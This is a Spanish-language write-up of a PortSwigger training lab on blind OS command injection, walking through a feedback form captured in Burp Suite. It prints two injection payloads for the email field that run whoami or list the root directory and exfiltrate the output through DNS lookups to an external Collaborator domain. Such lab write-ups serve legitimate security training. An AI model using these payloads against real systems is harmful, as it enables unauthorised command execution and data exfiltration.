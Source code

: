 ```yaml
---
title: "Blind OS command injection with out-of-band data exfiltration"
date: 2024-12-01 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - OS Command Injection
tags:
  - OS Command Injection
  - Blind OS command injection with out-of-band data exfiltration
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `Blind OS Command Injection` en la `función` de `comentarios`. La aplicación `ejecuta` un `comando` en la `terminal` que incluye `datos` proporcionados por el `usuario`. El `comando` se ejecuta de forma `asíncrona` y no tiene efecto en la `respuesta` de la aplicación. No es posible `redireccionar` la `salida` a una `ubicación` accesible. Sin embargo, es posible desencadenar `out-of-band interactions` con un `dominio externo`. Para resolver el `laboratorio`, debemos ejecutar el `comando` `whoami` y exfiltra su `salida` mediante una `consulta DNS` a `Burp Collaborator`. Necesitaremos introducir el `nombre` del `usuario` actual para completar el `laboratorio`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/OS-Command-Injection-Lab-5/image_1.png)

Pulsamos en `Submit feedback` y vemos un `formulario`

![](/assets/img/OS-Command-Injection-Lab-5/image_2.png)

Hacemos `click` sobre `Submit feedback` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/OS-Command-Injection-Lab-5/image_3.png)

La `respuesta` obtenida son unas `llaves vacías {}`

![](/assets/img/OS-Command-Injection-Lab-5/image_4.png)

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard`, debido a que no recibimos `ninguna respuesta` que indique que estamos `inyectando comandos`, esta es la única forma que podemos utilizar para ello, debemos usar este `payload` en los diferentes `campos` para ver si son `inyectables`

```
csrf=h2bWPuUAS3XRnSo6w2sMMhhnp9pXPlbe&name=test&email=||nslookup+`whoami`.s6z1cmuo54u5lsajrthrckwd84ev2sqh.oastify.com||&subject=test&message=test
```

Si nos vamos a `Burpsuite Collaborator` nuevamente veremos que hemos obtenido `dos peticiones DNS` con el `output` del comando `whoami`

![](/assets/img/OS-Command-Injection-Lab-5/image_5.png)

Si necesitamos obtener más de una línea podemos usar este otro `payload` de `Hacktricks` [https://book.hacktricks.xyz/pentesting-web/command-injection#dns-based-data-exfiltration](https://book.hacktricks.xyz/pentesting-web/command-injection#dns-based-data-exfiltration)

```
csrf=h2bWPuUAS3XRnSo6w2sMMhhnp9pXPlbe&name=test&email=||for+i+in+$(ls+/);+do+host+"$i.4gldmy40fg4hv4kv15r3mw6pigo7c50u.oastify.com";+done||&subject=test&message=test
```

Pulsamos en `Submit solution` e `introducimos` el nombre de usuario `peter-qflr5j`

![](/assets/img/OS-Command-Injection-Lab-5/image_6.png)
